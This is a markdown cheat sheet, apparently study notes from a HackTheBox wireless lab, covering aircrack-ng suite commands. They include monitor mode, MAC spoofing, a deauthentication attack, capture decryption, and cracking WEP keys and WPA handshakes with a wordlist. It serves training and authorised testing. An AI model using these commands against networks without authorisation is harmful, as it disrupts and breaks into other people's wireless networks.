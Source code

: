 
# airmon-ng
```bash
sudo airmon-ng

# kill blockers app
sudo airmon-ng check kill

# enable monitor mode
sudo airmon-ng start wlp61s0
# on 11 channel
sudo airmon-ng start wlp61s0 11

sudo airmon-ng stop wlp61s0mon
```
# change mac
```bash
sudo macchanger wlan0 -m 3E:48:72:B7:62:2A
```
# aireplay-ng
### Test if injection is possible
```bash
sudo iw dev wlp61s0mon set channel 1
sudo aireplay-ng --test wlp61s0mon
```
### Deauthentication attack
Run `airodump-ng`, write out AP and client IDs, then run:
```bash
# 5 - number of deauths to send
sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlp61s0mon
```
Check `airodump-ng` output to see the evidenced by the increase in `Lost` packets and `Frames` count.

# airodump-ng
```bash
sudo airodump-ng wlp61s0mon  

mkdir wifi-dump && cd wifi-dump
# saves dumps to files with prefix HTB
sudo airodump-ng wlan0mon -w HTB
```

### Bands
* a uses 5 GHz
* b uses 2.4 GHz
* g uses 2.4 GHz
```bash
sudo airodump-ng wlan0mon --band a
```

# airgraph-ng
Use files created by airodump-ng:
```bash
# Clients to AP Relationship Graph
sudo airgraph-ng -i HTB-01.csv -g CAPR -o HTB_CAPR.png

# Common Probe Graph
sudo airgraph-ng -i HTB-01.csv -g CPG -o HTB_CPG.png


```
# airdecap-ng
* Removing wireless headers from an open network capture (Unencrypted capture).
* Decrypting a WEP-encrypted capture file using a hexadecimal WEP key.
* Decrypting a WPA/WPA2-encrypted capture file using the passphrase.
### Removing Wireless Headers from Unencrypted Capture file
```bash
sudo airdecap-ng -b 00:14:6C:7A:41:81 opencapture.cap
```
### Decrypting WEP-encrypted captures
```bash
sudo airdecap-ng -w 1234567890ABCDEF HTB-01.cap
```
### Decrypting WPA-encrypted captures
```bash
# -p is password
sudo airdecap-ng -p 'abdefg' HTB-01.cap -e "Wireless Lab"
```

# aircrack-ng
### benchmark
```bash
aircrack-ng -S
```

### Cracking WEP
Collect Initialization Vectors:
```bash
sudo airodump-ng --ivs --write WEP

aircrack-ng -K WEP.ivs
```

### Cracking WPA
 "four-way handshake" serves as the required input. 
Aircrack-ng can effectively operate with just two packets. Specifically, EAPOL packets 2 and 3, or packets 3 and 4, are considered a full handshake.
```bash
aircrack-ng HTB.pcap -w /opt/wordlist.txt
```

